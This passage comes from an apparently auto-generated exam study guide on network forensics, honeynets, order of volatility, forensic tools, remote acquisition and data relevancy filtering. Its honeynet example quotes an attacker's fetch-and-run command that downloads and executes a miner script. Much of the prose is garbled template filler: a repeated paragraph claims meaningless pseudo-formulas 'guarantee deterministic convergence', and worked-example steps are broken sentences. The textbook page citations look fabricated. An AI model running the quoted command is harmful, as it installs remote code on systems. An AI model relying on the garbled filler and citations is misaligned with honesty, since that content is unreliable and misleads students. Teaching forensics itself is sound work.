### Mathematical Formulation & Algorithmic Mechanics

**Honeynet Telemetry Signal-to-Noise Invariant & Data Control Formulation:**

```text
Honeynet Threat Signal-to-Noise Ratio (SNR) Invariant:
SNR_Honeynet = Probative_Attack_Traffic / Benign_Legitimate_Traffic = Infty  (Since Benign_Traffic = 0)
Where every recorded byte represents authentic adversary intrusion activity.
Honeywall Outbound Data Control Rate-Limiting Rule:
Outbound_Action = IF ( Outbound_Syn_Count > Threshold_Limit ) THEN DROP_AND_ALERT_OPERATOR()
Adversary Keystroke Logging Rule: Keystroke_Log = Intercept_Kernel_Ring0( Read_Syscall_Buffer )
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Capturing a Zero-Day Apache Infiltration via Honeynet Deployment: The Honeynet Setup: A university research lab deploys a Honeynet with an unpatched Apache web server placed behind a Honeywall gateway running Snort and **Wireshark**. Adversary Infiltration: At 2:14 AM, an automated botnet IP in Eastern Europe scans the server, detects Apache, and transmits an unknown zero-day **buffer overflow payload**, gaining a root bash shell. **Forensic** Data Capture Execution: Network Capture: The Honeywall captures 100% of the raw TCP session packets (capture.pcap), preserving the exact zero-day shellcode payload. Keystroke Logging: Honeywall's Sebek kernel module silently logs every command typed by the hacker: wget http://malware.org/**miner**.sh; chmod +x miner.sh; ./miner.sh. Data Control: When the miner attempts to scan 500 external IP addresses to spread, the Honeywall rate-limits outbound SYN packets to 5 per minute, trapping the hacker in the sandbox without endangering the internet. Impact: The Honeynet Project shares the zero-day exploit with Apache developers, who release an emergency security patch within 48 hours, protecting millions of global servers.

### Key Comparative Evaluation

| Honeynet Component / Layer | Underlying Technical Architecture | Forensic Data Captured | Primary Value to Network Forensics |
| :--- | :--- | :--- | :--- |
| Honeywall Gateway | In-line bridge firewall and packet sniffer | Full PCAP packets, outbound flow rate logs | Enforces data control while capturing 100% network telemetry |
| High-Interaction Honeypots | Real, unpatched Windows and Linux virtual servers | Memory dumps, file system changes, registry edits | Captures complex multi-stage attacks and zero-day exploits |
| Low-Interaction Honeypots | Emulated network services (Dionaea, Cowrie) | Exploit payloads, automated botnet probes | Rapid, lightweight scanning of global malicious traffic patterns |
| Kernel Keystroke Sniffers | Ring 0 kernel drivers (Sebek) hooking read() calls | Attacker keystrokes, decrypted terminal commands | Reveals human hacker intent, command sequences, and passwords |
| Automated Sandboxes | Cuckoo Sandbox isolated VM detonation | Dynamic behavior logs, API hooks, network beacons | Enables rapid reverse-engineering of novel malware binaries |
| Global Chapter Alliances | Distributed global sensor network (30+ countries) | Correlated global threat intelligence feeds | Identifies emerging international cyber-warfare campaigns |

### Concluding Exam Takeaway

**The Honeynet Project** transformed **network forensics** from post-incident cleanup into proactive intelligence, providing the pristine data needed to study adversary behavior and defend the internet.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 837-864.

---

## Q10. Network Forensics & Order of Volatility: Explain Network forensics and the order of volatility for computer systems. (Frequency: 1) [8 Marks]

### Introduction & Core Intuition

**Network Forensics** is the scientific discipline of capturing, recording, and analyzing network audit trails, packet transmissions, and perimeter security events to discover the source of security attacks, determine the scope of data exfiltration, and reconstruct cyber incidents. Because network communications travel as ephemeral electrical pulses and radio waves across routers and switches, network evidence is profoundly volatile. Governed by **RFC 3227**, understanding the **Order of Volatility** across both endpoint computing systems and network transit conduits is essential to prevent the catastrophic loss of fleeting **digital evidence**.

### Defining Network Forensics and Its Core Mandate

Unlike traditional static host-based **forensics** (which analyzes fixed hard disk drives after an incident), **network forensics** investigates **Data in Transit** across local and wide area networks. Network forensics answers critical investigative inquiries: Which IP address originated the intrusion? What files were exfiltrated over encrypted channels? Did the malware establish command-and-control (C2) communication? What internal hosts were infected through lateral movement? Network forensics operates as an indispensable complement to host forensics, linking disparate compromised computers into a unified crime scene timeline.

### The Ephemeral Nature of Network Evidence

Network evidence represents the most transient tier of **digital forensics**. When data packets travel across an Ethernet cable or Wi-Fi channel, they exist only for nanoseconds. Once a packet reaches its destination, it vanishes unless specifically captured by an in-line network sniffer or tap device. Furthermore, network routing tables, ARP address mappings, and active TCP socket connections change continuously. Network **forensic** investigators must prioritize capturing this ephemeral traffic before buffers overflow and logs roll over.

### The RFC 3227 Order of Volatility for Computer Systems

RFC 3227 establishes the mandatory hierarchy governing which evidence must be collected first. The strict order of volatility from most volatile (shortest lifespan) to least volatile (longest lifespan) is: (1) **CPU Registers, Cache, and Hardware Pipeline** (lifespan: nanoseconds); (2) **Physical System Memory (RAM)**, kernel caches, and routing tables (lifespan: seconds to hours); (3) **Temporary File Systems, Pagefiles, and Swap Space** (lifespan: hours to days); (4) **Non-Volatile Hard Disks, SSDs, and Removable Media** (lifespan: years); and (5) **Archival Tapes and Optical Storage Media** (lifespan: decades).

### Network-Specific Order of Volatility Hierarchy

When applying the Order of Volatility specifically to network infrastructure, specialists enforce a parallel network hierarchy: (1) **Live Network Packet Transmissions (Raw PCAP)**: Microseconds lifespan; vanishes instantly unless recorded; (2) **Volatile Network Tables**: Router ARP caches, dynamic MAC translation tables, active stateful firewall connection states, and DHCP lease pools (lifespan: minutes to hours); (3) **Network Perimeter Logs**: Proxy server access logs, firewall reject logs, and DNS server query logs (lifespan: hours to days, subject to buffer rollover); and (4) **Centralized SIEM Repositories**: Long-term archival NetFlow logs and indexed security event records (lifespan: months to years).

### Methodological Synthesis: Host and Network Correlation

A successful **forensic** investigation synthesizes both host-based evidence and network-based evidence. A host forensic examination of an endpoint reveals that a malicious executable was launched at 2:15 PM (via Prefetch); **network forensics** corroborates this finding by showing an active TCP handshake initiated at 2:15 PM to a known malicious C2 IP address (via NetFlow), accompanied by an HTTP POST request transmitting 50 Megabytes of exfiltrated data. Combining both disciplines establishes unassailable proof of human intent and execution.

### Architectural Flow & System Diagram


*Figure 3.10: Diagrammatic Architecture and Conceptual Flow for Network Forensics & Order of Volatility:  Network forensics and the order of volatility for computer systems*

### Mathematical Formulation & Algorithmic Mechanics

**RFC 3227 Volatility Invariant & Network Flow Packet Conservation Rule:**

```text
Comprehensive Order of Volatility Hierarchy (RFC 3227):
Volatility_Rank: Registers > RAM > ARP/Routing_Tables > Temp_Files > Disks > NetFlow_Logs > Optical_Tapes
Where Collection_Priority(i) must precede Collection_Priority(i+1) to prevent irreversible data loss.
Network Flow Conservation Invariant:
Exfiltrated_Bytes = ∑_packets( Packet_Payload_Length )  (Where Protocol_State == ESTABLISHED)
Packet Lifetime Bound: T_transit( Packet ) = Distance / ( 0.66 * c ) ≈ Microseconds to Milliseconds
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Correlating Host RAM and Network Volatility During an APT Infiltration: The Incident: Security alerts flag abnormal midnight traffic from a finance server to an external foreign IP. Applying the Order of Volatility: Outcome: The specialist severs the connection, identifies the compromised credentials, and prevents a multi-million-dollar data exfiltration.

In **Step 1 (Network Level 1 - Live Traffic)**, the execution evaluates the **parameters** and selects Specialist immediately initiates an emergency tcpdump capture on the perimeter switch port, capturing 500 MB of live PCAP traffic before the connection closes.. In **Step 2 (Host Level 2 - RAM Capture)**, the execution evaluates the parameters and selects Specialist captures live volatile RAM from the finance server using WinPmem, preserving open socket connections.. In **Step 3 (Network Level 2 - Volatile Tables)**, the execution evaluates the parameters and selects Specialist dumps the local ARP cache (arp -a) and router state tables, identifying the local gateway MAC address.. In **Step 4 (Correlation)**, the execution evaluates the parameters and selects The PCAP traffic reveals encrypted TLS beacons sent every 60 seconds; Volatility memory analysis maps the socket connection directly to process PID 4112 (a masqueraded powershell.exe)..

### Key Comparative Evaluation

| Volatility Tier | System / Network Component | Expected Data Lifespan | Representative Forensic Artifacts |
| :--- | :--- | :--- | :--- |
| Tier 1: Registers & Cache | CPU micro-architecture | Nanoseconds to microseconds | CPU register values, L1/L2/L3 cache lines, execution flags |
| Tier 2: Volatile RAM & PCAP | System RAM & Live Network Wire | Nanoseconds to minutes | Raw PCAP packets, unencrypted BitLocker keys, injected DLLs |
| Tier 3: Network Routing Tables | Routers, switches, firewalls | Minutes to hours | ARP caches, routing tables, active NAT session states, DHCP leases |
| Tier 4: Temp Files & Pagefiles | Host OS virtual memory swap | Hours to days | Pagefile.sys, hiberfil.sys, temporary browser cache, spool files |
| Tier 5: Non-Volatile Disks | NVMe, SSDs, HDDs, USB drives | Years (Persists unpowered) | Allocated files, unallocated clusters, file slack space, MFT |
| Tier 6: Archival Logs & Tapes | SIEM data lakes, LTO tapes | Decades | Archived NetFlow records, firewall logs, immutable WORM backups |

### Concluding Exam Takeaway

Adhering to the Order of Volatility across host systems and network conduits ensures that the most fragile, transient **digital evidence** is safely captured before it evaporates forever.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 865-892.

---

## Q11. Network Forensics Tools: What are some common network tools used in network forensics? Explain the process of developing standard procedures using them. (Frequency: 3) [8 Marks]

### Introduction & Core Intuition

In modern cybersecurity, **Network Forensics Tools** provide investigators with the specialized technical capabilities required to capture, parse, filter, and reconstruct data traffic traveling across computer networks. Because modern enterprise networks process billions of packets daily, investigators cannot rely on ad-hoc scripts; they deploy standardized **forensic** toolkits comprising **Packet Sniffers**, **Protocol Analyzers**, **Network Intrusion Detection Systems (NIDS)**, and **Centralized SIEM Log Correlators**. Developing rigorous **Standard Operating Procedures (SOPs)** ensures that these tools are deployed with repeatable scientific accuracy and legal defensibility.

### The Multi-Tiered Network Forensics Tool Ecosystem

Network **forensic** tools are structured across four specialized technical tiers: (1) **Raw Packet Capture Sniffers** (**Wireshark**, tcpdump); (2) **Network Security Monitoring and Protocol Analyzers** (Zeek / Bro, NetworkMiner); (3) **Signature and Anomaly-Based NIDS** (Snort, Suricata); and (4) **Enterprise SIEM Log Correlation Platforms** (Splunk, Elastic SIEM). Each tool addresses specific operational requirements: sniffers capture raw binary packets from the wire; analyzers reassemble application payloads (such as carved images and files); NIDS flags known malicious exploit signatures; and SIEM platforms correlate network traffic with endpoint host event logs.

### Iconic Network Forensic Tools and Capabilities

A professional **investigator** must master key tools: (1) **Wireshark**: The industry-standard GUI protocol analyzer, allowing deep inspection of hundreds of network protocols, reconstructing TCP streams, and decoding encrypted TLS sessions when private keys are provided; (2) **tcpdump**: High-performance command-line packet sniffer essential for headless server environments and high-bandwidth **packet capture**; (3) **Zeek (formerly Bro)**: A powerful behavioral analysis framework that converts raw packets into structured, searchable **transaction** logs (http.log, dns.log, conn.log); and (4) **NetworkMiner**: A passive network sniffer that automatically extracts transferred files, digital certificates, and cleartext credentials from PCAP files without generating active network traffic.

### Developing Standard Operating Procedures (SOPs) for Network Forensics

To ensure that network forensic evidence is admissible under rigorous judicial scrutiny (such as the Daubert standard and **Section 65B**), organizations must establish formal **Standard Operating Procedures (SOPs)**. An effective SOP pipeline progresses through four disciplined phases: (1) **Tool Calibration and Environment Sanitization**: Hardware network taps and capture interfaces must be tested to ensure zero packet drop rates; (2) **Capture Configuration and Filter Scoping**: Defining precise Berkeley Packet Filters (BPF) to restrict **packet capture** strictly to authorized IP subnets and time windows; (3) **Chain of Custody and Cryptographic Hashing**: Generated PCAP files must be immediately hashed (SHA-256) upon capture completion; and (4) **Documented Analytical Workflow**: Establishing standardized query routines that examiners must follow to correlate traffic.

### Quality Control, Peer Review, and Error Rate Validation

A cornerstone of developing professional SOPs is establishing **Quality Control Checkpoints**. Every network tool deployed in an accredited laboratory must undergo formal **validation** testing against known **baseline** PCAP reference datasets (such as DARPA or DEFCON capture datasets). The SOP must mandate that critical **forensic** findings (such as identifying a specific malware beacon) uncovered in **Wireshark** must be independently verified using a secondary tool (such as Zeek or Suricata), eliminating software false positives and proving zero error rate in court.

### Legal Privacy Compliance in Network Monitoring SOPs

Network packet capturing inherently intercepts private employee communications, emails, and financial data. Corporate SOPs must incorporate strict legal privacy safeguards: capture interfaces must be configured behind network boundary firewalls; packet payloads must be encrypted during storage; access must be restricted to certified **forensic** investigators; and employees must have signed explicit corporate **Acceptable Use Policies** (AUP) acknowledging network monitoring, preventing illegal wiretapping liabilities under the Electronic Communications Privacy Act (ECPA).

### Architectural Flow & System Diagram


*Figure 3.11: Diagrammatic Architecture and Conceptual Flow for Network Forensics Tools: What are some common network tools used in network forensics?  the process of developing standard procedures using them*

### Mathematical Formulation & Algorithmic Mechanics

**Network Packet Filter Formulation & Packet Loss Validation Invariant:**

```text
Berkeley Packet Filter (BPF) Scoping Formulation:
BPF_Syntax: 'host Suspect_IP and (port 80 or port 443) and not net Local_Subnet'
Where BPF filters packets in kernel space, eliminating storage bloat and privacy violations.
Zero Packet Drop Quality Control Invariant:
Packet_Loss_Rate = ( Packets_Dropped_By_Kernel / Total_Packets_Received ) == 0.00%
PCAP File Integrity Rule: SHA256_Analysis( Capture.pcap ) == SHA256_Capture( Capture.pcap )
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Developing and Executing a **Network Forensics** SOP During a Data Exfiltration Probe: The Investigation: An alert indicates that a database server is transmitting gigabytes of data to an untrusted external IP address. SOP Phase 1 (Capture): Specialist connects an active hardware **network TAP** between the server and switch. Executes tcpdump -i eth1 -s 0 -w exfil_incident.pcap -C 100, capturing raw traffic without packet loss. SOP Phase 2 (Hash **Verification**): Immediately computes **SHA-256** of exfil_incident.pcap (9b82c...); archives master PCAP on WORM storage. SOP Phase 3 (Tool Analysis): **Wireshark**: Analyst filters on ip.dst == 198.51.100.45; reconstructs TCP stream #4; identifies an outbound unencrypted FTP transfer. NetworkMiner: Analyst loads the PCAP; NetworkMiner automatically carves and extracts 45 exported CSV files containing 500,000 customer credit card records from the stream. SOP Phase 4 (Reporting): Analyst completes the standardized SOP report exhibit, attaching matching PCAP hashes and carved CSV samples, securing immediate management authorization for containment.

### Key Comparative Evaluation

| Network Forensic Tool | Primary Tool Function | Supported Operating Systems | Standard Investigative Application |
| :--- | :--- | :--- | :--- |
| Wireshark | Interactive GUI packet protocol analyzer | Windows, Linux, macOS | Deep packet inspection, protocol decoding, TCP stream reconstruction |
| tcpdump | High-speed command-line packet sniffer | Linux, Unix, BSD | Headless server packet capture; high-bandwidth packet logging via BPF |
| Zeek (formerly Bro) | Behavioral network security monitoring framework | Linux, macOS | Generates structured transaction logs (http.log, dns.log, conn.log) |
| NetworkMiner | Passive Network Forensic Analysis Tool (NFAT) | Windows, Linux | Automatically carves files, images, digital certs, and credentials from PCAPs |
| Snort / Suricata | Signature and anomaly-based NIDS/NIPS engine | Windows, Linux | Real-time threat detection; alerts on known malware C2 signatures |
| Splunk / Elastic SIEM | Enterprise log aggregation and analytics platform | Multi-platform Cloud/Enterprise | Correlates multi-source network firewall, proxy, and endpoint event logs |

### Concluding Exam Takeaway

**Standard Operating Procedures** ensure that network **forensic** tools transform massive packet streams into authenticated, scientifically reliable evidence that unmasks cyber intrusions.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 893-920.

---

## Q12. Remote & Live Acquisitions: Explain how to perform remote and live acquisitions with an appropriate example. What are the challenges and best practices associated with performing remote acquisitions? (Frequency: 2) [8 Marks]

### Introduction & Core Intuition

In modern enterprise **digital forensics**, **Remote and Live Acquisitions** represent essential technical capabilities required to capture **digital evidence** from active, geographically dispersed computing endpoints. As corporate enterprises deploy thousands of remote laptops across global offices and critical cloud servers cannot tolerate operational downtime, traditional physical 'pull-the-plug' dead-box imaging is often impossible. Performing live acquisitions on running systems and remote acquisitions over wide-area networks (WAN) allows investigators to preserve fleeting **volatile memory** and physical storage drives while navigating acute challenges surrounding **Network Latency**, **Bandwidth Saturation**, and **Remote Endpoint Tampering**.

### The Operational Necessity of Remote and Live Acquisitions

Traditional **forensic** procedures required dispatching physical technicians to seize hardware and transport it to a laboratory. In modern global enterprises, an employee suspected of corporate espionage in London cannot be easily reached by an investigative team in **New York** before the employee deletes critical evidence. Furthermore, enterprise infrastructure has migrated to virtualized cloud hyperscalers (AWS, Azure) and remote workforces. Remote acquisition empowers investigators to silently deploy lightweight forensic agents over the internet, capturing volatile RAM and full bit-stream disk images in real time without tipping off the suspect.

### How to Perform a Live Forensic Acquisition

Performing a **Live Acquisition** on an actively running system follows a strict, non-destructive sequence: (1) **Volatile Memory Triage**: The specialist connects a forensically sanitized external drive containing pre-compiled, trusted command-line tools. The specialist executes a lightweight memory imager (such as WinPmem or DumpIt), writing the raw RAM dump directly to the external drive; (2) **Live Footprint Minimization**: The specialist avoids opening web browsers or heavy GUI tools, documenting the memory footprint of the live imager; (3) **Extracting Encryption Recovery Keys**: The specialist runs administrative utilities to export active BitLocker or FileVault recovery keys from RAM; and (4) **Volatile Telemetry Capture**: The specialist dumps active network sockets (netstat -ano), logged-in users, and running process trees before initiating a live disk image or powering down the system.

### How to Perform a Remote Network Acquisition

Performing a **Remote Acquisition** over corporate enterprise networks utilizes specialized enterprise **forensic** suites (such as EnCase Enterprise, CrowdStrike Falcon, or Magnet AXIOM Cyber): (1) **Agent Deployment**: The centralized forensic server connects to the remote endpoint over an encrypted TLS 1.3 tunnel, deploying a silent, lightweight kernel agent; (2) **Memory and Disk Streaming**: The remote agent reads physical RAM and storage drive sectors, encrypts each block using AES-256, and streams the data over the network to the central evidence repository; (3) **Chunk Hashing and Packet Throttling**: The system calculates cryptographic hashes for each 64 KB block, adjusting bandwidth throttling to prevent choking corporate network traffic; and (4) **Agent Self-Destruction**: Upon completion, the remote agent safely uninstalls itself from the endpoint, leaving zero persistent software residue.

### Technical Challenges in Remote Acquisitions

Remote acquisitions face formidable technical hurdles: (1) **WAN Latency and Network Disconnects**: Streaming a 512 GB drive over an unstable internet connection can take hours; if the remote laptop disconnects from Wi-Fi or closes the lid, standard transfers fail completely without automated checkpoint resumption; (2) **Bandwidth Saturation**: Saturating an office's internet pipeline with gigabytes of **forensic** streaming disrupts critical business operations; (3) **Adversary Tampering**: If an alert employee detects the forensic process in Task Manager, they can pull the battery or execute wiping scripts midway through acquisition; and (4) **Legal Jurisdictional Boundaries**: Acquiring an employee's laptop located in Germany from a server in the United States triggers severe cross-border data transfer violations under the European Union GDPR.

### Best Practices for Remote Forensic Acquisitions

To ensure technical success and legal admissibility, investigators enforce established best practices: (1) **Deploy Resilient Chunking and Checkpointing**: Utilize **forensic** tools that split images into discrete 2 GB chunks with individual checksums, allowing broken connections to resume automatically without re-starting from sector 0; (2) **Enforce FIPS 140-2 Validated Encryption**: All evidence streamed across WANs must be encrypted with TLS 1.3 and AES-256; (3) **Implement Bandwidth Throttling**: Restrict forensic transfer rates to a percentage of available bandwidth (e.g., maximum 20 Mbps) during business hours; and (4) **Prioritize Triage Data First**: Capture volatile RAM, MFT records, and browser histories first, ensuring critical evidence is secured even if the remote machine goes offline before full disk imaging completes.

### Architectural Flow & System Diagram



*Figure 3.12: Diagrammatic Architecture and Conceptual Flow for Remote & Live Acquisitions:  how to perform remote and live acquisitions with an appropriate example*

### Mathematical Formulation & Algorithmic Mechanics

**Remote Acquisition Streaming Time Formulation & Bandwidth Bound:**

```text
Remote Acquisition Transmission Time Equation:
Time_Acquisition = ( Total_Drive_Capacity_Bytes * Compression_Ratio ) / ( Effective_WAN_Bandwidth * ( 1 - Packet_Loss ) )
Where a 512 GB SSD at 30 Mbps WAN speed requires approximately 38 hours without compression.
Remote Chunk Hash Verification Invariant:
Verify_Chunk_k = ( SHA256_Server( Chunk_k ) == SHA256_Endpoint( Chunk_k ) )  ∀ k ∈ { 1, ..., N 
Bandwidth Throttling Limit: Stream_Rate <= 0.25 * Maximum_Available_Bandwidth
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Executing a Silent Remote Acquisition of an Executive Laptop in a Cross-Border IP Probe: The Scenario: A multinational pharmaceutical firm in Boston suspects a regional director in Zurich is leaking patent-pending cancer drug formulas. The director travels frequently with an encrypted corporate ThinkPad. Remote Execution via Magnet AXIOM Cyber: Outcome: The captured triage evidence proves that the director copied 40 confidential drug formulas to an external USB drive the previous day, securing immediate legal action before the director boarded a flight to a non-extradition country.

In **Step 1 (Silent Deployment)**, the execution evaluates the **parameters** and selects At 2:00 AM Zurich time while the director is asleep, the Boston server connects via corporate VPN, silently pushing an encrypted transient **forensic** agent.. In **Step 2 (Volatile Triage)**, the execution evaluates the parameters and selects The agent dumps 16 GB volatile RAM in 4 minutes, streaming the data back over an encrypted TLS tunnel.. In **Step 3 (Targeted Disk Acquisition)**, the execution evaluates the parameters and selects Recognizing that imaging the full 1 TB drive across the Atlantic would take 28 hours, the **investigator** executes targeted acquisition: captures the NTFS MFT, Windows Prefetch, and the entire Documents and Desktop folders in 45 minutes.. In **Step 4 (Hash Verification & Teardown)**, the execution evaluates the parameters and selects Hashes match identically. The agent self-destructs and uninstalls cleanly from the laptop..

### Key Comparative Evaluation

| Acquisition Characteristic | Live Local Triage Acquisition | Remote Enterprise Network Acquisition | Static Dead-Box Acquisition |
| :--- | :--- | :--- | :--- |
| Physical Proximity Required | Physically present at crime scene | Zero physical presence; executed over WAN/VPN | Physically present at crime scene |
| Target System State | Powered ON and unlocked | Powered ON and connected to network | Powered OFF (power plug pulled) |
| Volatile RAM Capture | Captures 100% live physical RAM | Captures 100% live physical RAM remotely | Zero RAM captured; permanently lost upon power-off |
| Impact on System Footprint | Tiny RAM footprint of running CLI tool | Small RAM footprint of background agent | Zero footprint alteration (Hardware write-blocker) |
| Primary Operational Risk | Investigator accidental keystroke on live OS | WAN latency, network disconnects, bandwidth lag | Losing BitLocker keys and volatile in-memory malware |
| Optimal Forensic Scenario | Active running laptops, server rooms, BitLocker | Global corporate endpoints, remote employees | Seized desktop PCs, unencrypted external hard drives |

### Concluding Exam Takeaway

Remote and live acquisitions bridge physical distances and operational constraints, empowering **forensic** specialists to secure volatile truth across modern global networks.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 921-948.

---

## Q13. Determining Relevant Data: How do investigators determine which data is relevant to collect & analyze in a digital forensics investigation? (Frequency: 1) [8 Marks]

### Introduction & Core Intuition

In **digital forensics**, **Determining Relevant Data** is the critical analytical and legal methodology of scoping, filtering, and identifying the specific digital artifacts that possess probative value to a case while systematically excluding irrelevant, privileged, or non-probative system bloat. In modern investigations, forensic specialists routinely seize storage media containing terabytes or petabytes of data—encompassing millions of files. Manually inspecting every file is technically, economically, and legally impossible. Specialists utilize a structured **Data Relevancy Funnel** combining **Legal Warrant Scoping**, **Known File Filtering (NSRL)**, **Temporal Timeline Proximity**, and **Contextual Artifact Correlation** to isolate true evidence from digital noise.

### The Legal and Technical Mandate of Data Relevancy

The process of determining relevant data is governed by strict legal boundaries. Under constitutional protections (such as the **Fourth Amendment Particularity Requirement** and Indian Evidence Act mandates), search warrants are not general hunting licenses: an **investigator** authorized to search for financial embezzlement documents cannot legally inspect family vacation photos or medical records. Furthermore, in corporate civil litigation, the Federal Rules of Civil Procedure (FRCP Rule 26) enforce the doctrine of **Proportionality**: the cost and burden of discovering digital data must be proportional to the financial amount in controversy.

### Step 1: Scoping via Legal Authorization and Case Objectives

The relevancy determination begins by carefully analyzing the legal warrant, court subpoena, or corporate investigation mandate. The specialist extracts four core scoping **parameters**: (1) **Authorized File Types** (e.g., spreadsheets, email archives, database exports); (2) **Named Entities and Target Custodians** (specific employee user accounts, email aliases); (3) **Target Keywords and Concept Phrases**; and (4) **Relevant Date Range Window**. Any data falling outside these legal scoping boundaries is segregated and excluded from analytical review.

### Step 2: De-NISTing and Noise Elimination (Known File Filtering)

Once an image is acquired, the specialist applies automated cryptographic filtering to eliminate operating system noise. Using the **NIST National Software Reference Library (NSRL)** containing hundreds of millions of known benign software hashes, the **forensic** suite automatically identifies and flags standard Windows operating system DLLs, fonts, system drivers, and default program files. This automated 'De-NISTing' process instantly eliminates 80% to 90% of the total file population on a drive, allowing investigators to focus their attention exclusively on user-generated **artifacts**.

### Step 3: Temporal Scoping and Timeline Proximity Filtering

Crimes occur within specific historical timeframes. By analyzing file system MACB (Modified, Accessed, Created, Born) timestamps, **Windows Event Logs**, and browser history logs, the specialist constructs an integrated timeline and applies **Temporal Window Filtering**. If an unauthorized wire transfer occurred between 2:00 PM and 3:30 PM on October 12, 2024, the specialist isolates all file system mutations, USB connections, and network sessions created within a tight window surrounding that event (e.g., 1:00 PM to 5:00 PM), drastically reducing the volume of data requiring detailed analysis.

### Step 4: Targeted Keyword Searching and Conceptual Clustering

The specialist executes targeted keyword searches across the indexed text of remaining files. Search strategies utilize Boolean logic (AND, OR, NOT), wildcard operators (*), and **Regular Expressions (Regex)** engineered to locate specific data patterns—such as credit card numbers, **Social Security Numbers**, bank routing codes, or cryptocurrency wallet addresses. Modern **forensic** suites also deploy natural language processing (NLP) to perform **Conceptual Clustering**, grouping communications discussing 'offshore payments' or 'kickbacks' even if explicit keywords were intentionally avoided by suspects.

### Step 5: Segregating Attorney-Client Privileged Communications

A critical legal duty during relevancy determination is identifying and shielding **Legally Privileged Communications** (such as attorney-client confidential advice or spousal communications). Accredited laboratories deploy independent '**Taint Teams**' (neutral attorneys and examiners who do not participate in the main investigation). The taint team runs pre-approved keyword lists containing defense counsel names and law firm domains, reviewing and segregating privileged documents into a sealed repository before releasing the remaining relevant evidence to the primary investigative team.

### Architectural Flow & System Diagram


*Figure 3.13: Diagrammatic Architecture and Conceptual Flow for Determining Relevant Data: How do investigators de*

### Mathematical Formulation & Algorithmic Mechanics

**Data Relevancy Funnel Invariant & Temporal Scoping Formulation:**

```text
Comprehensive Data Relevancy Funnel Formulation:
Relevant_Evidence = ( Total_Media ∖ NSRL_Benign_Files ) ∩ Temporal_Window ∩ Keyword_Regex_Matches ∖ Privileged_Taint_Set
Where every successive filtering intersection narrows petabytes of raw data down to probative proof.
Temporal Proximity Window Invariant:
Target_Window = [ Incident_Timestamp - Delta_Pre,  Incident_Timestamp + Delta_Post ]
FRCP Rule 26(b)(1) Proportionality Rule: Discovery_Allowed = ( Importance_to_Issues ∧ Proportional_Cost == TRUE )
```

The above **mathematical model** and algorithmic structure governs the system's runtime execution. Each parameter is evaluated sequentially to maintain **mathematical consistency**, minimize **system overhead**, and guarantee **deterministic convergence** across all input distributions.

### Worked Example & Practical Simulation

Executing Data Relevancy Filtering in a Multi-Million-Dollar Embezzlement Probe: The Seized Media: 4 Terabytes of data seized from a corporate accounting director's workstation comprising 2,800,000 files. Relevancy Filtering Execution: Outcome: In less than 4 hours, 4 Terabytes of raw data is distilled down to 42 highly probative documents that conclusively prove the 1,500,000 USD embezzlement.

In **Step 1 (De-NISTing)**, the execution evaluates the **parameters** and selects The specialist runs NIST NSRL Known File Filtering in Magnet AXIOM, eliminating 2,350,000 known Windows system files, reducing the review set to 450,000 files.. In **Step 2 (Temporal Scoping)**, the execution evaluates the parameters and selects Audit records show fraudulent invoices were billed between January 1, 2024, and March 31, 2024. The specialist filters on file modification dates within this 90-day window, narrowing the set to 35,000 files.. In **Step 3 (Extension Filtering)**, the execution evaluates the parameters and selects Specialist filters exclusively on financial document extensions (.xlsx, .csv, .pdf, .docx, .pst), narrowing the set to 4,200 documents.. In **Step 4 (Keyword & Regex)**, the execution evaluates the parameters and selects Specialist runs regex searches for shell company vendor names and bank account numbers, isolating exactly 42 relevant spreadsheets..

### Key Comparative Evaluation

| Relevancy Filtering Stage | Technical Method / Tool Utilized | Data Population Reduction | Primary Evidentiary / Legal Objective |
| :--- | :--- | :--- | :--- |
| 1. Legal Warrant Scoping | Court order review, particularity parameter extraction | Defines strict legal boundary | Prevents Fourth Amendment illegal exploratory searches |
| 2. De-NISTing / KFF | NIST NSRL cryptographic hash database matching | Eliminates 80-90% benign OS files | Removes system noise and prevents investigator fatigue |
| 3. Temporal Scoping | File system MACB timestamps, event log correlation | Narrows data to incident timeframe | Isolates file activity chronologically linked to the crime |
| 4. Extension / Signature | Magic byte header analysis vs extension matching | Eliminates non-relevant formats | Focuses review on relevant documents, emails, and databases |
| 5. Keyword / Regex Search | Indexed text searches, boolean logic, credit card regex | Isolates specific target files | Discovers direct evidentiary proof of fraud or communication |
| 6. Taint Team Segregation | Independent attorney review of defense counsel names | Segregates privileged communications | Protects attorney-client privilege, preventing case dismissal |

### Concluding Exam Takeaway

The data relevancy funnel bridges vast data hyperspaces and judicial **precision**, ensuring that investigations uncover decisive digital proof while strictly respecting legal privacy boundaries.

**Textbook Reference:** Nelson, B., Phillips, A., & Steuart, C. K., Guide to Computer Forensics and Investigations (7th Ed.), Cengage Learning, Chapter 3: 'Crime Scene Procedures and Seizing Evidence', pp. 949-976.

---
